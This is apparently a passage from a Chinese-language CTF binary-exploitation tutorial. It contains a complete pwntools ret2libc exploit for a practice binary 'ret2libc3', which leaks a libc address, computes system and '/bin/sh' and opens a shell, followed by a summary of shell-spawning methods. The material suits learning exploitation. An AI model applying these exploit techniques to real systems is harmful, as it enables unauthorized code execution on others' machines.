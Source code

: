 ```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()

```

## 题目



# shell获取小结

这里总结几种常见的获取shell的方式：

- 执行shellcode，这一方面也会有不同的情况
  - 可以直接返回shell
  - 可以将shell返回到某一个端口
  - shellcode中字符有时候需要满足不同的需求
  - **注意，我们需要将shellcode写在可以执行的内存区域中。**
- 执行system("/bin/sh"),system('sh')等等
  - 关于system的地址，参见下面章节的**地址寻找**。
  - 关于"/bin/sh"， “sh”
    - 首先寻找binary里面有没有对应的字符串,**比如说有flush函数，那就一定有sh了**
    - 考虑个人读取对应字符串
    - libc中其实是有/bin/sh的
  - 优点
    - 只需要一个参数。
  - 缺点
    - **有可能因为破坏环境变量而无法执行。**
- 执行execve("/bin/sh",NULL,NULL)
  - 前几条同system
  - 优点
    - 几乎不受环境变量的影响。
  - 缺点
    - **需要3个参数。**
- 系统调用
  - 系统调用号11
